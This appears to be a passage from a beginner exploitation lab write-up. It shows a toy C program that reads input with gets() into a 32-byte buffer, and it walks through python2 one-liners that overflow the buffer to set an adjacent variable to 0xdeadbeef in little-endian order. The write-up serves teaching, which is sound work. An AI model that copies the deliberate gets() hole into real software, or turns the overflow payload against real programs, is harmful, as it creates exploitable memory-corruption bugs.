# 🫁 02-overwriting\_stack\_variables\_part2

So let's run the binary and try to test out the overflow

<figure><img src="../../../../.gitbook/assets/image (1199).png" alt=""><figcaption></figcaption></figure>

let's unhex the output value to understand what happended

<figure><img src="../../../../.gitbook/assets/image (1200).png" alt=""><figcaption></figcaption></figure>

let's look at the source code to see what happened

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void do_input(){
    int key = 0x12345678;
    char buffer[32];
    printf("yes? ");
    fflush(stdout);
    gets(buffer);
    if(key == 0xdeadbeef){
        printf("good job!!\n");
        printf("%04x\n", key);
        fflush(stdout);
    }
    else{
        printf("%04x\n", key);
        printf("...\n");
        fflush(stdout);
    }
}

int main(int argc, char* argv[]){
    do_input();
    return 0;
}
```

we see that we have a 32 size buffer and the key value needs to be equal to 0xdeadbeef but there's no input way of changing this value except of overwriting this

<figure><img src="../../../../.gitbook/assets/image (1201).png" alt=""><figcaption></figcaption></figure>

```
python2 -c 'print 32 * "A" + "deadbeef"'
```

So i tried overflowing the 32 size buffer with the value deadbeef but it only took the first 4 chars and reversed them

so we do the same thing but reverse the 2 dead to daed ->

<figure><img src="../../../../.gitbook/assets/image (1202).png" alt=""><figcaption></figcaption></figure>

ok now is going to be the tricky part, we are going to craft our payload and inject it in overwrite:

```
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"'
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"' > payload
./overwrite < payload
```

<figure><img src="../../../../.gitbook/assets/image (1203).png" alt=""><figcaption></figcaption></figure>

**`"\xef\xbe\xad\xde"`**:

* This is a string containing four specific byte values, represented in hexadecimal notation. Each `\xHH` sequence represents a single byte, where `HH` is the hexadecimal value of the byte.
* In this case, `"\xef\xbe\xad\xde"` represents the bytes with hexadecimal values `EF`, `BE`, `AD`, and `DE`.

The last four characters are non-printable and represent the bytes `EF`, `BE`, `AD`, and `DE`.

and since the string is reversed it overflows with deadbeef and validates the challenge
